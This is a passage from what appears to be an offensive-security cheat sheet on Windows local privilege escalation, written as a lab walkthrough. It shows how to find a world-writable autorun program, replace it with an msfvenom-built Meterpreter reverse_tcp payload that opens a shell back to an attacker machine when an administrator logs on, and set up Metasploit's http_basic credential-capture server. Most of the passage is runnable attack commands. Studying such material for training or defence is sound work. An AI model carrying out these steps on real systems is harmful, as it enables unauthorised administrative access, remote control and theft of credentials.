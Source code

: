 Windows VM

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe

2. In Autoruns, click on the ‘Logon’ tab.

3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.

4. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"

5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.

#### [(L)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/C%20-%20Local%20Privilege%20Escalation/README.md#exploitation)Exploitation

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler

3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp

4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run

6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe

7. Copy the generated file, program.exe, to the Windows VM.

Windows VM

1. Place program.exe in ‘C:\Program Files\Autorun Program’.

2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM

1. Wait for a new session to open in Metasploit.
2. In Metasploit (msf > prompt) type: sessions -i [Session ID]

3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid

### Memory

#### [(L)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/C%20-%20Local%20Privilege%20Escalation/README.md#exploitation-10)Exploitation

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use auxiliary/server/capture/http_basic
3. In Metasploit (msf > prompt) type: set uripath x
4. In Metasploit (msf > prompt) type: run
